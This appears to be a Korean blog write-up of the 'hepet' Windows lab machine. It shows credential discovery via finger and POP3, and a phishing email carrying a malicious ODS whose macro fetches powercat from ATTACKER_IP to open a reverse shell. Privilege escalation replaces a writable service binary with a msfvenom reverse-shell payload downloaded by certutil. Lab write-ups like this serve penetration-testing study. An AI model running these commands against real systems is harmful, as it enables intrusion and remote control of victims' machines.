



---
layout: post
title:  "[PG][Windows] hepet"
date:   2026-11-08 12:17:00 +09:00
featured: /assets/images/oscp-pg/windows/hepet/image.png
categories: PG Windows
---## 정보수집
nmap으로 포트 스캔을 수행.
```
└─$ nmap -p$ports -sC -sV -Pn 192.168.192.140
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-24 03:21 EDT
Nmap scan report for 192.168.192.140
Host is up (0.096s latency).

PORT      STATE  SERVICE        VERSION
25/tcp    open   smtp           Mercury/32 smtpd (Mail server account Maiser)
|_smtp-commands: localhost Hello nmap.scanme.org; ESMTPs are:, TIME
79/tcp    open   finger         Mercury/32 fingerd
| finger: Login: Admin         Name: Mail System Administrator\x0D
| \x0D
|_[No profile information]\x0D
105/tcp   open   ph-addressbook Mercury/32 PH addressbook server
106/tcp   open   pop3pw         Mercury/32 poppass service
110/tcp   open   pop3           Mercury/32 pop3d
|_pop3-capabilities: USER UIDL APOP TOP EXPIRE(NEVER)
135/tcp   open   msrpc          Microsoft Windows RPC
139/tcp   open   netbios-ssn    Microsoft Windows netbios-ssn
143/tcp   open   imap           Mercury/32 imapd 4.62
|_imap-capabilities: X-MERCURY-1A0001 OK IMAP4rev1 complete AUTH=PLAIN CAPABILITY
443/tcp   open   ssl/http       Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.3.23
|_ssl-date: TLS randomness does not represent time
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Time Travel Company Page
445/tcp   open   microsoft-ds?
2224/tcp  open   http           Mercury/32 httpd
|_http-title: Mercury HTTP Services
5040/tcp  open   unknown
7680/tcp  closed pando-pub
8000/tcp  open   http           Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1g PHP/7.3.23)
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1g PHP/7.3.23
|_http-title: Time Travel Company Page
| http-methods: 
|_  Potentially risky methods: TRACE
11100/tcp open   vnc            VNC (protocol 3.8)
| vnc-info: 
|   Protocol version: 3.8
|   Security types: 
|_    Unknown security type (40)
20001/tcp open   ftp            FileZilla ftpd 0.9.41 beta
| ftp-syst: 
|_  SYST: UNIX emulated by FileZilla
|_ftp-bounce: bounce working!
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -r--r--r-- 1 ftp ftp            312 Oct 20  2020 .babelrc
| -r--r--r-- 1 ftp ftp            147 Oct 20  2020 .editorconfig
| -r--r--r-- 1 ftp ftp             23 Oct 20  2020 .eslintignore
| -r--r--r-- 1 ftp ftp            779 Oct 20  2020 .eslintrc.js
| -r--r--r-- 1 ftp ftp            167 Oct 20  2020 .gitignore
| -r--r--r-- 1 ftp ftp            228 Oct 20  2020 .postcssrc.js
| -r--r--r-- 1 ftp ftp            346 Oct 20  2020 .tern-project
| drwxr-xr-x 1 ftp ftp              0 Oct 20  2020 build
| drwxr-xr-x 1 ftp ftp              0 Oct 20  2020 config
| -r--r--r-- 1 ftp ftp           1376 Oct 20  2020 index.html
| -r--r--r-- 1 ftp ftp         425010 Oct 20  2020 package-lock.json
| -r--r--r-- 1 ftp ftp           2454 Oct 20  2020 package.json
| -r--r--r-- 1 ftp ftp           1100 Oct 20  2020 README.md
| drwxr-xr-x 1 ftp ftp              0 Oct 20  2020 src
| drwxr-xr-x 1 ftp ftp              0 Oct 20  2020 static
|_-r--r--r-- 1 ftp ftp            127 Oct 20  2020 _redirects
33006/tcp open   mysql          MariaDB 10.3.24 or later (unauthorized)
49664/tcp open   msrpc          Microsoft Windows RPC
49665/tcp open   msrpc          Microsoft Windows RPC
49666/tcp open   msrpc          Microsoft Windows RPC
49667/tcp open   msrpc          Microsoft Windows RPC
49668/tcp open   msrpc          Microsoft Windows RPC
49669/tcp open   msrpc          Microsoft Windows RPC
```

http://192.168.192.140:8000/team 으로 이동 시 직원의 정보를 찾을 수 있음.
Jonas K.의 이름 아래에 "SicMundusCreatusEst"가 적혀 있으며, 패스워드로 추측.


finger 포트를 이용해 User 확인 시 jonas가 사용중 인것 확인.
```
└─$ wget https://raw.githubusercontent.com/pentestmonkey/finger-user-enum/refs/heads/master/finger-user-enum.pl 
└─$ perl finger-user-enum.pl -U names.txt -t 192.168.192.140 | grep -v "is not known"
Starting finger-user-enum v1.0 ( http://pentestmonkey.net/tools/finger-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Worker Processes ......... 5
Usernames file ........... names.txt
Target count ............. 1
Username count ........... 6
Target TCP port .......... 79
Query timeout ............ 5 secs
Relay Server ............. Not used

######## Scan started at Thu Sep 24 06:14:32 2026 #########
Charlotte@192.168.192.140: Login: Charlotte         Name: Charlotte....[No profile information]..
Jonas@192.168.192.140: Login: Jonas         Name: Jonas..
Magnus@192.168.192.140: Login: Magnus         Name: Magnus....[No profile information]..
Agnes@192.168.192.140: Login: Agnes         Name: Agnes....[No profile information]..
Martha@192.168.192.140: Login: Martha         Name: Martha....[No profile information]..
######## Scan completed at Thu Sep 24 06:14:33 2026 #########
6 results.

6 queries in 1 seconds (6.0 queries / sec)
```

jonas:SicMundusCreatusEst 계정을 통해 POP3에 로그인이 가능했음.
```
└─$ telnet 192.168.192.140 110
Trying 192.168.192.140...
Connected to 192.168.192.140.
Escape character is '^]'.
+OK <13453703.14004@localhost>, POP3 server ready.
user jonas
+OK jonas is known here.
pass SicMundusCreatusEst
+OK Welcome! 4 messages (4744 bytes)
list
+OK 4 messages, 4744 bytes
1 1342
2 963
3 1347
4 1092
.
```

첫 번째와 세 번째 메시지를 통해 각각 mailadmin@localhost라는 새로운 이메일 주소와 해당 조직이 LibreOffice를 사용한다는 사실을 확인.
```
retr 1
+OK Here it comes...
Received: from spooler by localhost (Mercury/32 v4.62); 19 Oct 2020 12:29:03 -0700
X-Envelope-To: <jonas@localhost>
Return-path: <agnes@localhost>
Received: from kali (192.168.118.8) by localhost (Mercury/32 v4.62) with ESMTP ID MG00000A;
   19 Oct 2020 12:28:54 -0700
Message-ID: <135985.54474035-sendEmail@kali>
From: "agnes@localhost" <agnes@localhost>
To: "mailadmin@localhost" <mailadmin@localhost>
Cc: "jonas@localhost" <jonas@localhost>,
 "magnus@localhost" <magnus@localhost>
Subject: Contacts Information
Date: Mon, 19 Oct 2020 19:28:53 +0000
X-Mailer: sendEmail-1.56
MIME-Version: 1.0
Content-Type: multipart/related; boundary="----MIME delimiter for sendEmail-678721.390272589"

This is a multi-part message in MIME format. To properly display this message you need a MIME-Version 1.0 compliant Email program.

------MIME delimiter for sendEmail-678721.390272589
Content-Type: text/plain;
        charset="iso-8859-1"
Content-Transfer-Encoding: 7bit

Hi team!

I'm new here, will be doing PR for the company. 
Its a pleasure to work with all of you!

If you can please send to mailadmin the spreadsheet for printing with all the company contacts will be really apreciated .

Ela, can you install the office suite on my machine?

Cheers!


------MIME delimiter for sendEmail-678721.390272589--

.
retr 3
+OK Here it comes...
Received: from spooler by localhost (Mercury/32 v4.62); 19 Oct 2020 12:28:41 -0700
X-Envelope-To: <jonas@localhost>
Return-path: <mailadmin@localhost>
Received: from kali (192.168.118.8) by localhost (Mercury/32 v4.62) with ESMTP ID MG000001;
   19 Oct 2020 12:28:40 -0700
Message-ID: <359094.447081105-sendEmail@kali>
From: "mailadmin@localhost" <mailadmin@localhost>
To: "agnes@localhost" <agnes@localhost>
Cc: "jonas@localhost" <jonas@localhost>,
 "magnus@localhost" <magnus@localhost>
Subject: Important
Date: Mon, 19 Oct 2020 19:28:39 +0000
X-Mailer: sendEmail-1.56
MIME-Version: 1.0
Content-Type: multipart/related; boundary="----MIME delimiter for sendEmail-808784.915440814"

This is a multi-part message in MIME format. To properly display this message you need a MIME-Version 1.0 compliant Email program.

------MIME delimiter for sendEmail-808784.915440814
Content-Type: text/plain;
        charset="iso-8859-1"
Content-Transfer-Encoding: 7bit

Team,

We will be changing our office suite to LibreOffice. For the moment, all the spreadsheets and documents will be first procesed in the mail server directly to check the compatibility. 

I will forward all the documents after checking everything is working okay. 

Sorry for the inconveniences.


------MIME delimiter for sendEmail-808784.915440814--

.
```
## 초기침투

github에서 악성 ODS를 제작이 가능한 스크립트를 다운로드.
```
└─$ wget https://raw.githubusercontent.com/0bfxgh0st/MMG-LO/refs/heads/main/mmg-ods.py
```

RCE 권한을 얻기 위해 공격자 PC에서 powercat.ps1 파일을 다운로드한 뒤 실행하도록 익스플로잇을 수정.
```
build_payload = (f'IEX(New-Object System.Net.WebClient).DownloadString("http://ATTACKER_IP/powercat.ps1");powercat -c {ip} -p {port} -e powershell')
```

ip와 포트를 인자값으로 삽입한 뒤 실행하면 file.ods 파일이 생성됨.
```
└─$ python mmg-ods.py windows ATTACKER_IP 4444 
[+] Payload: windows reverse shell
[+] Creating malicious .ods file

Done.
```

swaks를 이용해서 SMTP 메일을 직접 전송.
```
└─$ sudo swaks -t mailadmin@localhost --from jonas@localhost --attach @file.ods --server 192.168.234.140 --body "Please open this ODT document." --header "Poop File" --suppress-data
[sudo] password for kali: 
=== Trying 192.168.234.140:25...
=== Connected to 192.168.234.140.
<-  220 localhost ESMTP server ready.
 -> EHLO kali
<-  250-localhost Hello kali; ESMTPs are:
<-  250-TIME
<-  250-SIZE 0
<-  250 HELP
 -> MAIL FROM:<jonas@localhost>
<-  250 Sender OK - send RCPTs.
 -> RCPT TO:<mailadmin@localhost>
<-  250 Recipient OK - send RCPT or DATA.
 -> DATA
<-  354 OK, send data, end with CRLF.CRLF
 -> 198 lines sent
<-  250 Data received OK.
 -> QUIT
<-  221 localhost Service closing channel.
=== Connection closed with remote host.
```

몇 분 후 HTTP 서버에서 powercat.ps1에 대한 GET 요청이 감지되고, netcat 리스너에 리버스쉘이 확인됨.



## 권한상승
실행중인 서비스 중에 Ela Arwel 디렉토리에서 실행 중인 서비스가 존재.
```
PS C:\Program Files\LibreOffice\program> Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
.
.
.
VeyonService           Running C:\Users\Ela Arwel\Veyon\veyon-service.exe
```

실행 파일에 대한 모든 권한이 있는 것을 확인.
```
PS C:\Users\Ela Arwel\Veyon> icacls "C:\Users\Ela Arwel\Veyon\veyon-service.exe"   
icacls "C:\Users\Ela Arwel\Veyon\veyon-service.exe"
C:\Users\Ela Arwel\Veyon\veyon-service.exe NT AUTHORITY\SYSTEM:(I)(F)
                                           BUILTIN\Administrators:(I)(F)
                                           HEPET\Ela Arwel:(I)(F)

Successfully processed 1 files; Failed processing 0 files
```

기존 서비스를 백업.
```
PS C:\Users\Ela Arwel\Veyon> mv veyon-service.exe veyon-service_old.exe    
mv veyon-service.exe veyon-service_old.exe
```

msfvenom을 통해 악성 페이로드 제작.
```
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4444 -f exe -o veyon-service.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: veyon-service.exe
```

제작한 페이로드를 공격지 PC로 부터 다운로드.
```
PS C:\Users\Ela Arwel\Veyon> certutil.exe -urlcache -split -f http://ATTACKER_IP/veyon-service.exe veyon-service.exe
certutil.exe -urlcache -split -f http://ATTACKER_IP/veyon-service.exe veyon-service.exe
****  Online  ****
  0000  ...
  1c00
CertUtil: -URLCache command completed successfully.
```

서비스를 재시작이 불가하여, 시스템 재부팅 시도.
```
PS C:\Users\Ela Arwel\Veyon> shutdown /r /t 0
shutdown /r /t 0
```

시스템 재부팅 시 악성 페이로드가 실행되어 리버스 쉘이 netcat 리스너에 확인됨.

